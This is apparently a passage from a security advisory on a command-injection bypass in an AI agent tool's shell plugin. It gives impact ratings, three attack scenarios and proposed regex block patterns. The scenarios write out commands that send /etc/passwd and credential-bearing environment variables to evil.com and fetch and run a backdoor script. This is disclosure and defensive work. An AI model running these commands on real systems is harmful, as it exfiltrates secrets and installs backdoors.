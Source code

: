 
## Impact Assessment

### Business Impact

**Confidentiality:** Critical - Full file system access  
**Integrity:** Critical - Ability to modify/delete any accessible files  
**Availability:** Critical - System shutdown/DoS capabilities  

### Technical Impact

1. **Remote Code Execution** - Attackers can execute arbitrary system commands
2. **Data Exfiltration** - Access to sensitive files and system information  
3. **Privilege Escalation** - Potential to escalate to higher privileges
4. **System Compromise** - Complete system takeover in worst-case scenarios
5. **Lateral Movement** - Potential to move to other systems in network

### Attack Scenarios

#### Scenario 1: Data Exfiltration
```bash
# Attacker payload:
localagent shell "VAR=$(cat /etc/passwd) curl -X POST -d \$VAR http://evil.com/collect"
```

#### Scenario 2: System Backdoor Installation
```bash
# Multi-stage attack:
localagent shell "echo <(curl http://evil.com/backdoor.sh) > /tmp/install"
localagent shell "bash /tmp/install"
```

#### Scenario 3: Credential Harvesting
```bash
# Environment variable exfiltration:
localagent shell "env | grep -i 'pass\|key\|token' | base64 | curl -X POST -d @- http://evil.com"
```

---

## Remediation Strategy

### Immediate Actions (Critical Priority)

1. **Disable Shell Plugin** - Temporarily disable the shell plugin in production
2. **Emergency Patch** - Deploy hotfix to block identified bypass patterns
3. **Audit Existing Usage** - Review logs for potential exploitation attempts
4. **Security Alert** - Notify all users about the vulnerability

### Short-term Fixes (High Priority)

#### 1. Enhanced Input Validation
```python
# Add missing patterns to FORBIDDEN_PATTERNS:
ADDITIONAL_FORBIDDEN_PATTERNS = [
    r'.*\$\{.*\}',              # Parameter expansion
    r'.*VAR\s*=.*\$\(',         # Variable assignment with command substitution
    r'.*<\(.*\)',               # Process substitution (input)
    r'.*>\(.*\)',               # Process substitution (output) 
    r'.*\$\[\[.*\]\]',          # Extended arithmetic expansion
    r'.*&\s*[^&].*',            # Background execution
    r'.*\n.*',                  # Newline command separation
    r'.*[\x00-\x1F\x7F-\x9F].*', # Control characters
]
```